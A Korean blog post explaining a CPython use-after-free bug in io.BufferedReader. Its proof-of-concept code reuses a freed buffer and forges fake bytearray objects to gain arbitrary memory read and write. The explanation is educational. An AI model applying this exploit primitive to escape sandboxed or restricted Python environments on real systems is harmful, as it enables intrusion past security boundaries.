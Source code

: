 ```yaml
---
author: kiwiyou
pubDatetime: 2024-01-19T05:47:51.188Z
title: CPython에서 임의 메모리 읽고 쓰기
slug: unsafe-python
featured: true
draft: false
tags:
  - Python
description: CPython에서 임의 메모리에 접근하는 방법을 소개합니다.
comment: true
---
```


Python으로 할 수 있는 것들을 찾아보다, [이 글](https://pwn.win/2022/05/11/python-buffered-reader.html)을 보게 되었습니다.
해당 글은 CPython 2.7에서부터 내려온 한 버그를 소개하고 있습니다.

```python
import io

class File(io.RawIOBase):
    def readinto(self, buf):
        global view
        view = buf
    def readable(self):
        return True

f = io.BufferedReader(File())
f.read(1)                       # get view of buffer used by BufferedReader
del f                           # deallocate buffer
view = view.cast('P')
L = [None] * len(view)          # create list whose array has same size
                                # (this will probably coincide with view)
view[0] = 0                     # overwrite first item with NULL
print(L[0])                     # segfault: dereferencing NULL
```

위 코드는 다음과 같이 작동합니다.

1. `BufferedReader`의 내부 버퍼를 가리키는 `memoryview`를 만듭니다.
2. `BufferedReader`와 내부 버퍼를 할당 해제합니다.
3. 내부 버퍼와 같은 길이를 가지도록 리스트를 만듭니다. 리스트가 할당한 공간은 `memoryview`가 가리키는 공간과 일치하게 됩니다.
4. `memoryview`의 첫 번째 값을 0으로 바꾸면, 리스트가 할당한 공간의 첫 번째 값도 0이 됩니다.
5. CPython의 모든 객체는 주소로 관리되므로 리스트의 첫 번째 원소를 가져오려 시도하면 주소 0을 역참조하게 됩니다.

3번 동작은 힙 할당이 가장 최근에 생긴 빈 공간을 재사용하려는 동작에 기인합니다. Use After Free 버그라고도 합니다.

위 코드를 통해 원하는 주소의 값을 CPython 객체로서 불러오는 것이 가능합니다.
따라서 임의의 바이트열을 메모리상에 띄우고 그 주소를 알 수 있다면 임의의 CPython 객체의 모조품을 만들 수 있습니다.

바이트열을 메모리상에 띄우는 것은 `bytes` 클래스를 이용할 수 있습니다.

```c
typedef struct {
    Py_ssize_t ob_refcnt;
    PyTypeObject *ob_type;
    Py_ssize_t ob_size;
    Py_hash_t ob_shash;
    char ob_sval[1];
} PyBytesObject;
```

`PyBytesObject`의 정의를 보면, 실제 바이트열이 32바이트 오프셋을 두고 존재함을 알 수 있습니다.
`bytes` 객체에 원하는 정보를 담고, `id(bytes)+32`를 하면 바이트열의 주소를 알 수 있습니다.

bytes는 불변이므로, 임의 메모리를 수정하기 위해서는 `bytearray` 객체의 모조품을 만들 필요가 있습니다.

```c
typedef struct {
    Py_ssize_t ob_refcnt;
    PyTypeObject *ob_type;
    Py_ssize_t ob_size;
    Py_ssize_t ob_alloc; 
    char *ob_bytes;
    char *ob_start;
    Py_ssize_t ob_exports;
} PyByteArrayObject;
```

`ob_size`는 실제 길이, `ob_alloc`은 할당 길이, `ob_bytes`는 할당 주소, `ob_start`는 실제 시작 주소입니다.
이를 원하는 주소와 길이로 지정해 주면 임의 주소의 메모리를 읽고 쓸 수 있습니다.

```python
import io

class File(io.RawIOBase):
    def readinto(self, buf):
        global view
        view = buf
    def readable(self):
        return True

f = io.BufferedReader(File())
f.read(1)
del f
view = view.cast('P')
L = [None] * len(view)

import struct
my_text = b"Hello World!"
fake_array = struct.pack('nPnnPPn', 9, id(bytearray), len(my_text), len(
    my_text), id(my_text)+32, id(my_text)+32, 0)
view[0] = id(fake_array)+32
print(L[0])
```